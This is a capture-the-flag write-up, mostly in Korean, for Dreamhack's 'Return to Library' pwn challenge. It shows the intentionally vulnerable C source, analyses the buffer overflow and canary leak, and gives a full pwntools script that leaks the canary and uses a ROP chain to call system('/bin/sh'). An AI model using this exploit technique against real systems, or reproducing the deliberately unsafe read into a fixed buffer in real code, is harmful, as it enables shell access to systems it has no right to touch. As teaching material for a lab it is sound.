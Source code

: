 # Return to Library - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 2
- Provided Files: rtl.c, rtl(ELF)
- tools: gdb(pwndbg)
## Brief Description
Exploit Tech: Return to Library에서 실습하는 문제입니다.
## Initial Analysis
### Environment
``` sh
checksec --file=rtl
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
### Code
``` c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```
### system("echo 'system@plt'");
ELF는 사용하는 함수에 대해서만 PLT에 등록한다. 어플 내부에서 `system`을 사용하기 때문에 PLT에 `system` 함수가 등록된다.  
## Vulnerability
### BOF(Buffer Overflow)
``` c
read(0, buf, 0x100);
```
`buf`의 크기는 0x30인 반면, `read`로 읽어오는 크기는 0x100이다. 이로인해 BOF 취약점이 발생하며 총 2번의 취약점이 발생한다.
### OOB(Out Of Bounds)
``` c
printf("Buf: %s\n", buf);
```
첫 번째 BOF 취약점 이후, `buf`를 출력한다. 만일 NULL-byte가 `buf` 내부에 없을 경우 OOB 취약점이 발생한다.  
## Exploit
### Strategy
두 번의 BOF를 통해 카나리 값을 읽고, Return to Libc 공격을 수행할 수 있다. 공격에 필요한 정보는 다음과 같다.  
| 정보 | 역할 | 확보 방법 |
| --- | --- | --- |
| system_PLT | system 호출 | pwndbg> plt |
| "/bin/sh" addr | system 함수 인자 | pwndbg> search /bin/sh |
| pop_rdi | system 인자를 레지스터에 전달 | ROPgadget --binary ./rtl --re "pop rdi" |
| ret | 스택 정렬 | ROPgadget --binary=./rtl \| grep ": ret" |

PIE가 비활성화 되어있어, 필요 정보 모두 위치가 고정된다.  
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
| ra | +0x8 |
| rbp |  |
| canary | -0x8 |
| dummy | -0x10 |
| buf | -0x40 |
### payload
``` python
from pwn import *

p = remote('host8.dreamhack.games', 18644)
context.arch = "amd64"

system_plt = 0x4005d0
binsh = 0x400874
pop_rdi = 0x0000000000400853
ret = 0x0000000000400596

# leak canary
leak_canary = b''
leak_canary += b'A' * 0x39 # to cover the canary NULL-byte, 0x38 + 0x1
p.sendafter(b'Buf: ', leak_canary)
p.recvuntil(leak_canary) # 내가 입력한 부분까지 받아옴
canary = u64(b'\x00' + p.recvn(7))
log.info(f'leaked canary: {canary}')

# exploit
payload = b''
payload += b'A' * 0x38 # buf + dummy
payload += p64(canary) # canary
payload += b'B' * 0x8 # rbp
payload += p64(ret) # align stack to prevent errors caused by movaps
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_plt)
pause()
p.sendafter(b'Buf: ', payload)

# sh
p.interactive()
```


